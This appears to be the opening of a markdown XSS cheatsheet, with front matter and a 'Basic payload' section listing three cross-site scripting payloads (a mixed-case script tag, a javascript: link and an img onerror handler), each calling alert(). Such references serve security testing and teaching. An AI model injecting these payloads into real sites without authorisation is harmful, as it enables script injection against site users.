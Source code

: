 ```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
---
```


# XSS

## Basic payload

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">
```